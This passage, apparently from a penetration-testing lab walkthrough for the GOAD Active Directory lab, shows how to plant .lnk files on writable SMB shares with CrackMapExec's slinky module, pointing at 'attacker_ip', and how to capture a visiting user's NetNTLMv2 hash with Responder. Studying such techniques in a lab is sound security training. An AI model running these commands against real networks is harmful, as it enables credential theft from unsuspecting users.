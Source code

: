 For our first exploitation we will create a file with the cme module **slinky**.

- This module will drop an lnk file in every writable folder on the target server :

Let's drop the file :

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip
```

![part13_cme_slinky.png](/assets/blog/GOAD/part13_cme_slinky.png)

- Launch responder and listen the network interface you use for goad (vboxnet0 or tun0):

```bash
responder -I tun0
```

- Go to the rdp screen with catelyn : `\\castelblack.north.sevenkingdoms.local\all`

![part13_rdp_to_slinky.png](/assets/blog/GOAD/part13_rdp_to_slinky.png)

- And you will receive Catelyn's NetNTLMv2 hash directly in responder :

![part13_slinky_result.png](/assets/blog/GOAD/part13_slinky_result.png)

> This coerce append automatically when the victim visit the share, no need to click! I let you imagine what append if you drop that kind of file on a common public share during your pentest.
{: .prompt-tip }
